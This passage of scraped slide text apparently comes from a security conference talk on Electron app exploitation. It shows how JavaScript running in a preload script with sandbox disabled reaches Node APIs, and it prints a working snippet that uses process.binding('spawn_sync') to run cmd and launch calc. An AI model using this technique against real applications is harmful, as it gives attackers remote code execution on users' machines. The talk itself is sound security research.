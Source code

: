     [View full-size slide](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_42.jpg)
    
44. [![What can I do with this JS exec?
    • The code is evaluated in the preload script's context
    • That means... it has access to Node API!
    • Additonally, sandbox:false, so no API restriction!
    The way to perform RCE in this context ➡](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/preview_slide_43.jpg?26545108)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_43.jpg?26545108)
    
    What can I do with this JS exec?  
    • The code is evaluated in the preload script's context  
    • That means... it has access to Node API!  
    • Additonally, sandbox:false, so no API restriction!  
    The way to perform RCE in this context ➡  
    
    [View full-size slide](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_43.jpg)
    
45. [![process.binding
    • Something like require() used in Node.js internal
    • Only available when sandbox: false
    • In the child_process module, binding('spawn_sync') is used
    and by following the call here, command exec is possible:
    a = {
    "type": "pipe",
    "readable": 1,
    "writable": 1
    };
    b = {
    "file": "cmd",
    "args": ["/k", "start", "calc"],
    "stdio": [a, a]
    };
    process.binding("spawn_sync").spawn(b);
    I learned this from Math.js RCE by @CapacitorSet & @denysvitali：https://jwlss.pw/mathjs/](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/preview_slide_44.jpg?26545109)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_44.jpg?26545109)
    
    process.binding  
    • Something like require() used in Node.js internal  
    • Only available when sandbox: false  
    • In the child_process module, binding('spawn_sync') is used  
    and by following the call here, command exec is possible:  
    a = {  
    "type": "pipe",  
    "readable": 1,  
    "writable": 1  
    };  
    b = {  
    "file": "cmd",  
    "args": ["/k", "start", "calc"],  
    "stdio": [a, a]  
    };  
    process.binding("spawn_sync").spawn(b);  
    I learned this from Math.js RCE by @CapacitorSet & @denysvitali：https://jwlss.pw/mathjs/  
    